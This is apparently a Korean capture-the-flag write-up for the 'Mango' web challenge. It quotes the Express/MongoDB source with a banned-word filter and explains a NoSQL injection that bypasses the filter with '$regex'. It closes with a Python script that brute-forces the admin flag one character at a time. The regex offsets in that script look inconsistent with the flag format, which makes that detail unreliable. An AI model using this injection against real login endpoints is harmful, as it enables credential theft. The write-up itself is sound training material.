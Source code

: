 ```yaml
---
title: "[CTF] Mango"
date: 2025-09-18 18:50:00 +0900
categories: [CTF, Web]
tags: [CTF, MongoDB, NoSQLi]
description: "드림핵 Mango 문제 풀이"
author: "송지민"
toc: true
---
```


## 문제 개요
간단한 Express + MongoDB 앱이다. 로그인 엔드포인트에서 특정 단어를 포함하면 필터링을 하고, 필터를 통과하면 MongoDB에서 `uid`와 `upw`를 직접 조회한다. 플래그는 DB에 `{'uid':'admin','upw':'DH{32alphanumeric}'}` 형태로 들어있다.

문제 코드(원본 전체):

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

## 핵심 취약점
- `filter`는 요청 파라미터 전체를 JSON 문자열로 만들고 금지어(`admin`, `dh`, `admi`)를 포함하면 차단한다.
- 금지어 필터를 우회할 수 있다. MongoDB 질의로 `$regex`를 사용하면 쿼리가 객체 형태로 전달되어 `dump`에서 점(`.`) 같은 문자가 들어가도 금지어 문자열이 연속으로 포함되지 않을 수 있다.
- MongoDB의 정규식 기반 매칭을 이용해 플래그를 하나씩 추출할 수 있다.

## 풀이 아이디어
1. `uid`에 `admin`을 그대로 쓰면 필터에 걸리므로 우회가 필요하다. `uid[$regex]=ad.in`처럼 `.`을 끼워 넣으면 JSON 문자열에는 `ad.in` 형태로 찍혀 `admin`과 연속되지 않아 필터를 통과한다.
2. `upw`는 32자의 영숫자 조합이다. 한 글자씩 추측하면서 정규식으로 검사한다. 예를 들어 지금까지 알아낸 문자열이 `ABC`이고 다음 문자가 `x`인지 확인하려면 `upw[$regex]=D.{3}x` 와 같은 패턴(정확한 패턴은 문제 DB 형식에 맞춰 조정)을 사용해 조건에 맞는 계정을 찾는다.
3. 서버가 `result`를 반환하면 `result['uid'] === 'admin'` 이므로 응답이 `admin`이면 성공 신호로 간주하고 다음 문자로 넘어간다.

## 내가 쓴 자동화 스크립트 (Python)
아래는 사용한 PoC 스크립트(사용자 환경에 맞게 HOST를 수정해서 실행).

```python
import requests, string

HOST = 'http://TARGET:8000'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        # uid는 regex로 admin 우회, upw는 위치 기반으로 매칭
        payload = {
            'uid[$regex]': 'ad.in',           # admin 우회
            # upw 정규식 예시: ^D{N}ch  또는 문제에 맞춰 조정
            'upw[$regex]': f'D.{{{i}}}{ch}'
        }
        r = requests.get(HOST + '/login', params=payload, timeout=5)
        if r.text.strip() == SUCCESS:
            flag += ch
            print(f'Found {len(flag)}: {flag}')
            break

print(f'FLAG: DH{{{flag}}}')
```

이 스크립트는 알파벳+숫자 조합을 순회하며 `/login`을 호출하고, 응답이 `admin`이면 해당 문자를 플래그의 다음 문자로 기록한다.

## 결과
자동화로 32자를 모두 찾아 `DH{...}` 형태의 플래그를 복원했다. 필터가 문자열 단위로만 검사한다는 점을 이용해 `$regex`를 통해 쿼리를 객체로 전달하면 금지어를 우회할 수 있다.

## 마무리
Mango 문제는 단순해 보이지만 필터 로직의 한계를 이용해 NoSQL 주입/정규식 매칭으로 플래그를 추출하는 전형적인 문제였다. 소스코드와 PoC를 포함해 정리해뒀다.

